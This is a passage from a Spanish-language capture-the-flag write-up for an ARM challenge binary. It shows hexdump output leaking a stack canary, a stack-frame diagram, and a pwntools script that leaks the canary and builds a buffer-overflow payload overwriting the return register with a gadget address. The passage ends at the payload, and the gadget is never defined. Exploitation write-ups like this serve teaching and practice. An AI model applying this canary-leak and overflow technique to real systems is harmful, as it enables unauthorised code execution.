 Podemos filtrar el canario durante nuestra primera lectura si pasamos 64 caracteres no nulos:
```
./chal | xxd
00000000: 5765 6c63 6f6d 6520 746f 2041 524d 2057  Welcome to ARM W
00000010: 6f72 6c64 210a 5772 6974 6520 796f 7572  orld!.Write your
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
00000020: 206e 616d 653a 2059 6f75 7220 6e61 6d65   name: Your name
00000030: 3a20 4141 4141 4141 4141 4141 4141 4141  : AAAAAAAAAAAAAA
00000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000050: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000060: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000070: 4141 0a8c 1c20 3650 669e f0dc 9f89 fc7e  AA... 6Pf......~
00000080: 0a57 7269 7465 2079 6f75 7220 4775 6573  .Write your Gues
```

El canario es `0x8c1c203650669e00`.

Empecemos explicando que el stack frame luce asi:
```
+----------------------------------------+
| 0xdeadbeefcafebabe          sp         |
| junk                        sp + 0x10  |
| x29                         sp + 0x18  |
| x30                         sp + 0x20  |
| stack_canary                sp + 0x28  |
| var_38                      sp + 0x38  |                   
| buffer2                     sp + 0x48  |
| var_58                      sp + 0x58  |
| buffer1                     sp + 0x68  |
+----------------------------------------+
```

Esto ocurre porque el buffer usado en la primera lectura se encuentra a 0x40 bytes del canario y `printf("Your name: %s\n",&buffer);` lee el string hasta encontrar un byte nulo.

Entonces como el canario son 7 bytes aleatorios y 1 byte nulo (el mas significativo, recordar que estamos en little endian por eso se encuentra al final) termina leyendolos.

El segundo buffer se encuentra a 0x20(32) bytes del canario.

```py

# ** Leak stack canary **
r.recvuntil(b"name: ")
r.sendline(b"A"*64)
r.recvuntil(b"A"*64)
sc = r.recv(8)
sc = b"\x00" + sc[1:]
log.success(f"Stack canary leaked: {hex(u64(sc))}")

# ** Buffer overflow **
r.recvuntil(b"book: ")
payload = b"A"*32                  # offset
payload += sc                      # stack canary
payload += p64(0)                  # x29
payload += p64(gadget)             # x30
```
